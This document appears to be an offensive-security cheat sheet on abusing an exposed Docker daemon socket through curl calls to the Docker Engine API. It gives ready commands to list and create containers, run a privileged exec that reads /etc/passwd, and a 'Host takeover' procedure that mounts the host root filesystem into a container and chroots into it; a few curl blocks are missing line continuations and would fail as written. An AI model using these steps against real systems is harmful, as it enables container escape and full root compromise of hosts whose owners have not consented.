 The Docker daemon can listen for [Docker Engine API](https://docs.docker.com/engine/api/) requests via three different types of socket:
- `unix`
- `tcp`
- `fd`

By default, Docker runs through a non-networked UNIX socket, which is created at `/var/run/docker.sock` and requires either root permission or docker group membership.

A `tcp` socket is used to remotely access the Docker daemon, for which the default setup provides un-encrypted and un-authenticated direct access. It is conventional to use port **2375** for un-encrypted, and port **2376** for encrypted communication with the daemon.

On Systemd-based systems, communication with the Docker daemon can occur over the Systemd socket `fd://`.

Sometimes the Docker daemon can be accessed inside the container or over the network. It is often leads to commands execution on the host system and escape from the container.

# List of all containers

`curl` command to list all containers on the host over `unix` socket.

```bash
$ curl -s --unix-socket /var/run/docker.sock http:/containers/json
```

`curl` command to list all containers on the host over `tcp` socket.

```bash
$ curl -s http://<host>:<port>/containers/json
```

# Create a container

`curl` command to create container over `unix` socket.

```bash
$ export CONTAINER_NAME=test-container
$ curl \
    -s \
    --unix-socket /var/run/docker.sock \
    "http:/containers/create?name=${CONTAINER_NAME}" \
    -X POST \
    -H "Content-Type: application/json" \
    -d '{ "Image": "alpine:latest", "Cmd": [ "id" ] }'
```

`curl` command to create container over `tcp` socket.

```bash
$ export CONTAINER_NAME=test-container
$ curl \
    -s \
    "http://<host>:<port>/containers/create?name=${CONTAINER_NAME}" \
    -X POST \
    -H "Content-Type: application/json" \
    -d '{ "Image": "alpine:latest", "Cmd": [ "id" ] }'
```

# Start the container

```bash
$ export CONTAINER_NAME=test-container
$ curl \
    -s \
    "http://<host>:<port>/containers/${CONTAINER_NAME}/start" \
    -X POST \
    -H "Content-Type: application/json" 
```

# Code execution in a container

First you need to create an instance of `exec` that will run in the container.

```bash
$ curl \
    -s \
    "http://<host>:<port>/containers/<container_id>/exec" \
    -X POST \
    -H "Content-Type: application/json" \
    -d '{"AttachStdin": true,"AttachStdout": true,"AttachStderr": true,"Cmd": ["cat", "/etc/passwd"],"DetachKeys": "ctrl-p,ctrl-q","Privileged": true,"Tty": true}'

HTTP/1.1 201 Created
...

{"Id":"913c5ce2f3bc3e929166f2b402512a02c1669c03e515ef793513390ca1c3fdc3"}
```

Now that `exec` has been created, you need to run it.

```bash
$ export EXEC_ID=913c5ce2f3bc3e929166f2b402512a02c1669c03e515ef793513390ca1c3fdc3
$ curl \
    -s \
    "http://<host>:<port>/exec/${EXEC_ID}/start"
    -X POST \
    -H "Content-Type: application/json" \
    -d '{"Detach": false,"Tty": false}' \

HTTP/1.1 200 OK
...

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
```

# Host takeover

To execute commands on the host system, start the Docker container and mount the host root directory on the container volume.

1. Download ubuntu image.

    ```bash
    $ curl \
        -s \
        "http://<host>:<port>/images/create?fromImage=ubuntu&tag=latest" \
        -X POST \
        -H 'Content-Type: application/json'
    ```

2. Create a container.

    ```bash
    $ curl \
        -s \
        "http://<host>:<port>/containers/create"
        -X POST \
        -H "Content-Type: application/json" \
        -d '{"Hostname": "","Domainname": "","User": "","AttachStdin": true,"AttachStdout": true,"AttachStderr": true,"Tty": true,"OpenStdin": true,"StdinOnce": true,"Entrypoint": "/bin/bash","Image": "ubuntu","Volumes": {"/hostfs/": {}},"HostConfig": {"Binds": ["/:/hostfs"]}}'
    ```

3. Start the container.
4. In order to execute commands on the host system, change the root directory.

    ```bash
    $ chroot /hostfs
    ```

# References

- [Write up: Escaping the Cloud Shell container](https://offensi.com/2019/12/16/4-google-cloud-shell-bugs-explained-introduction/)
